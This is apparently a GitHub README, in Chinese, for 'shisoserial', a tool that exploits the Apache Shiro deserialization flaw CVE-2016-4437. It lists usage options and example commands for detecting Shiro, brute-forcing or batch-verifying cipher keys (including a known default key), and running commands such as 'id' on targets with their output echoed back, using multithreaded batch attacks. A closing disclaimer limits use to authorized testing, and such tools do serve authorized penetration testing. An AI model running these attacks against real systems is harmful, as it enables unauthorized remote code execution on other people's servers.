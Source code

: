 

# shisoserial

[English Document](https://github.com/4nth0ny1130/shisoserial/blob/master/README-EN.md)

## 这是什么?

一个针对shiro反序列化漏洞(CVE-2016-4437)的快速利用工具

## 贡献者

[4nth0ny](https://github.com/4nth0ny1130) @星期五实验室

欢迎提issues/pr

:)

## 环境

*   python 3.x

*   JDK 1.8

## 安装

```
python3 -m pip install -r requirements.txt
```

for `AttributeError: module 'Crypto.Cipher.AES' has no attribute 'MODE_GCM'` or `No module named 'Crypto'`

```
python3 -m pip uninstall crypto pycryptodome
python3 -m pip install pycryptodome
```

## 用法

```
usage: shisoserial.py [-h] --mode MODE --url  [--type default:CBC] [--data] [--key] [--gadget] [--command default:whoami] [--proxies] [--ser] [--thread]

This is a simple tool to attack framework shiro with ysoserial

optional arguments:
  -h, --help            show this help message and exit
  --mode MODE, -m MODE  check/crack/yso/echo/encode
  --url , -u            Target URL address or the file containing the target URL
  --type default:CBC, -t default:CBC
                        Cipher Type, GCM or CBC
  --data , -d           Using this parameter will make HTTP request with POST method
  --key , -k            Specify a Shiro Key or will use dictionary brute force cracking
  --gadget , -g         Specific Ysoserial Gadget
  --command default:whoami, -c default:whoami
                        Specific Execute Command
  --proxies , -p        Specific Proxy
  --ser , -s            Specific serialize file name
  --thread , -T         Specific the number of threads
```

## 例子

### 检查目标是否使用shiro框架(使用默认CBC加密)

```
python3 shisoserial.py -m check -u http://127.0.0.1:8080
```

![](README.assets/1.png)

### 使用代理和CBC加密爆破目标shiro key

```
python3 shisoserial.py -m crack -u http://*.*.*.*:**** -t CBC -p ****://*.*.*.*:****/
```

![](README.assets/2.jpg)

### 使用CommonsCollectionsK1利用链执行命令并获取命令执行结果

```
python3 shisoserial.py -m echo -u http://127.0.0.1:8080 -g CommonsCollectionsK1 -c id
```

![](README.assets/3.png)

### 使用Post请求批量验证指定的shiro key

```
python3 shisoserial.py -m crack -u target_urls.txt -k kPH+bIxk5D2deZiIxcaaaA== -d username=1
```

![image-20211229223405240](README.assets/4.jpg)

### 使用序列化数据文件构造payload并使用多线程批量发送

```
python3 shisoserial.py -m encode -u target_urls.txt -t cbc -s 1.ser -T 4
```

![image-20211230181021173](README.assets/5.jpg)

## 免责声明

本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

